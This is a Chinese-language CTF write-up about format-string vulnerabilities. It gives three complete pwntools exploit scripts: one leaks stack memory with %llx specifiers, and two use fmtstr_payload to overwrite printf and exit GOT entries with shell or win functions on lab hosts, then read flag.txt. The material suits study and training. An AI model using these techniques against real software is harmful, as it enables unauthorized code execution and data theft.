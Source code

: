 # 第三周 格式化字符串
本周的题目没有对长度限制，所以可以直接用pwnlib.fmtstr_payload梭，不需要手动精心构造（虽然原理并不复杂，但这个显然更快不是吗）

## fmt
泄露栈上变量

```python
from pwn import *

p=remote("10.20.55.12", 28069)
# 多打几个lx就看到666c了，然后泄露指定位置就可以
p.send(b"fuck-%10$llx-%11$llx-%12$llx-%13$llx-%14$llx-%15$llx\n")
p.recvuntil(b"fuck-")

# 开始"优雅"地转换flag
s = p.recvuntil(b">").replace(b">", b"").decode().strip()
d = s.split("-")
s = ""
for i in d:
    s += i.rjust(16, "0")

s = bytes.fromhex(s)
s = s.decode()
for i in range(0, len(s), 8):
    print(s[i:i + 8][::-1], end="")
```

## wrire
本来改secret就可以，但是改成了777居然会弹secret is 777，看到没写死got就直接改printf的got了。
```python
from pwn import *

p = remote("10.20.55.12", 28021)
e = context.binary = ELF('chall')
# 通过 AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x 得到offset，这里不需要补位是对齐的
payload = fmtstr_payload(11, {e.got['printf']: e.symbols['win']}, write_size='byte')
p.sendline(payload)
p.sendline(b'cat flag.txt')
p.interactive()
```

## got
同第二题，只不过got打的是exit
```python
from pwn import *

p = remote("10.20.55.12", 28068)
e = context.binary = ELF('chall')
payload = fmtstr_payload(7, {e.got['exit']: e.symbols['get_shell']}, write_size='byte')
# 没关缓冲区，所以得补到128位
p.sendline(payload.ljust(128, b'a'))
p.sendline('cat flag.txt')
p.interactive()
```
